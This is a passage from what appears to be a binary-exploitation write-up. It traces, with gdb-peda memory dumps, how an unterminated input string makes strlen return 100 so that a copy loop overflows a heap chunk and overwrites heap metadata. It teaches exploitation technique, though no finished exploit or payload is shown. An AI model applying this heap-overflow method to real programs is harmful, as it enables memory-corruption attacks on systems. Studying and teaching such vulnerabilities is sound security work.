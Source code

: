 I’ll continue through to `0x401209`, where the call to `read` happens. The stack buffer hasn’t changed, and the heap struct has only had the integer values filled in. When the read happens, it reads 0x16 (or 22) “B”. I’ll break again at `0x0040127f`, the start of the loop to copy from the stack into the description buffer on the heap. The stack still doesn’t have a null at the end of the “B” string, and the null from the end of the “A” string is overwritten:

```

gdb-peda$ x/101bx 0x7ffe44197dd0
0x7ffe44197dd0: 0x42    0x42    0x42    0x42    0x42    0x42    0x42    0x42
0x7ffe44197dd8: 0x42    0x42    0x42    0x42    0x42    0x42    0x42    0x42
0x7ffe44197de0: 0x42    0x42    0x42    0x42    0x42    0x42    0x41    0x41 # no null at end of Bs
0x7ffe44197de8: 0x41    0x41    0x41    0x41    0x41    0x41    0x41    0x41
0x7ffe44197df0: 0x41    0x41    0x41    0x41    0x41    0x41    0x41    0x41
0x7ffe44197df8: 0x41    0x41    0x41    0x41    0x41    0x41    0x41    0x41
0x7ffe44197e00: 0x41    0x41    0x41    0x41    0x41    0x41    0x41    0x41
0x7ffe44197e08: 0x41    0x41    0x41    0x41    0x41    0x41    0x41    0x41
0x7ffe44197e10: 0x41    0x41    0x41    0x41    0x41    0x41    0x41    0x41
0x7ffe44197e18: 0x41    0x41    0x41    0x41    0x41    0x41    0x41    0x41
0x7ffe44197e20: 0x41    0x41    0x41    0x41    0x41    0x41    0x41    0x41
0x7ffe44197e28: 0x41    0x41    0x41    0x41    0x41    0x41    0x41    0x41
0x7ffe44197e30: 0x41    0x41    0x41    0x41    0x00

```

This means that when `strlen` runs on the buffer, it will return 100 (0x64), which I can see if I run through the call at `0x4012ca` and look at RAX:

```

RAX: 0x64 ('d')

```

By putting a break point after the loop (`0x4012d9`) and hitting `c`, I can see the heap after the copy is done, and I’ve managed to overwrite heap metadata:

```

gdb-peda$ x/26xg 0x00000000019f9250
0x19f9250:      0x0000000000000000      0x0000000000000041  # chunk for config
0x19f9260:      0x4141414141414141      0x4141414141414141
0x19f9270:      0x0000000000414141      0x0000000200000001
0x19f9280:      0x0000000400000003      0x0000000000000018
0x19f9290:      0x00000000019f92a0      0x0000000000000021  # chuck for desc, should be only 0x20 bytes
0x19f92a0:      0x4242424242424242      0x4242424242424242
0x19f92b0:      0x4141424242424242      0x4141414141414141
0x19f92c0:      0x4141414141414141      0x4141414141414141  # next chunk should start here, but overwritten
0x19f92d0:      0x4141414141414141      0x4141414141414141
0x19f92e0:      0x4141414141414141      0x4141414141414141
0x19f92f0:      0x4141414141414141      0x4141414141414141
0x19f9300:      0x0000000041414141      0x0000000000000000
0x19f9310:      0x0000000000000000      0x0000000000000000

```
